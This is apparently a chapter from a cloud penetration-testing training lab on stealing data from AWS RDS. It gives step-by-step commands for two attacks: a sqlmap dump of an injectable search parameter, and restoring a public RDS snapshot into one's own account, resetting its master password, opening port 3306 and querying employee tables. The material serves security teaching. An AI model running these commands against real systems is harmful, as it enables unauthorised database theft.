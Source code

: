 # Data pilferage

## Introduction

Once access to an RDS instance is obtained, either through a standard terminal due to the availability of a password or through a vulnerability in an application that talks to an RDS, it is almost second nature for an attacker to dump data from the database.

Multiple tools are available that allow you to pilfer data through an application via a vulnerbaility like SQL Injection. The AWS console and cli also provide the ability to find and mount RDS snapshots. A password reset on these snapshots can then be used to obtain access to the data they store.

## What are we going to cover?

In this chapter we shall see how we can use tools like SQLmap to dump data from a vulnerable application. We shall also see how we can use the aws cli and the Amazon API to restore an RDS snapshot into an instance and then gain access to the data that it contains.

## Steps to attack

### Attack 1 - Dumping entire RDS database using SQLMap

We will dump all the data from the vulnerable application using SQLMap

First let's confirm if the application is reachable

    curl http://INTERNAL-IP-APP/guestsearch.php?search=

Next we fire up SQLMap and attack the vulnerable parameter. Remember this data is coming from the RDS which is a different asset than the AWS EC2 instance running the web application

    sqlmap  -u http://INTERNAL-IP-APP/guestsearch.php?search= -p search --dump-all --batch

### Attack 2 - Stealing from RDS Snapshots

RDS snapshots can be made public. If the full snapshot identifier is available, this snapshot can be mounted in your own instance.

Partial snapshot identifiers can be searched from the AWS console

    aws rds describe-db-snapshots --include-public --snapshot-type public --db-snapshot-identifier arn:aws:rds:us-east-1:159236164734:snapshot:globalbutterdbbackup
 
Once the snapshot is found, let's restore the snapshot as a new instance

    aws rds restore-db-instance-from-db-snapshot --db-instance-identifier recoverdb --publicly-accessible --db-snapshot-identifier arn:aws:rds:us-east-1:159236164734:snapshot:globalbutterdbbackup --availability-zone us-east-1b

Once the snapshot is restored, we will check if the instance has been created so that we can connect to it

    aws rds describe-db-instances --db-instance-identifier recoverdb

You may have to wait for sometime as the instance is backed up after creation. The status when you run describe-db-instances tells you whether the instance is available or backing-up. The value of "DBInstanceStatus" should read "available".

Finally, we will reset the credentials of the MasterUsername and login into the instance

    aws rds modify-db-instance --db-instance-identifier recoverdb --master-user-password NewPassword1 --apply-immediately

This operation also takes some time. You can check the status of the RDS instance by running the `aws rds describe-db-instances` covered above

Run the following command from the cloudhacker machine to see if the MySQL RDS is up and accesible

    nc rds-endpoint 3306 -zvv

If the endpoint is not visible, then the port 3306 will have to be opened on the Security Group for the instance.

- In RDS console, click on the recoverdb instance
- Click on the Security Group
- Add an Inbound rule for port 3306 TCP for Cloudhacker IP
    
Connect to the endpoint using the mysql client command

    mysql -u <username> -p -h <rds-instance-endpoint>

Once you are connected using the mysql client, you can pilferage data

    show databases;

    use globalbutter;

    show tables;

    select * from employees;

## Additional references

- [AWS cli from DB snapshot](https://docs.aws.amazon.com/cli/latest/reference/rds/restore-db-instance-from-db-snapshot.html)
- [AWS cli Modify DB Instance](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-instance.html)
- [Restoring from Snapshot](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/CHAP_Tutorials.RestoringFromSnapshot.html)
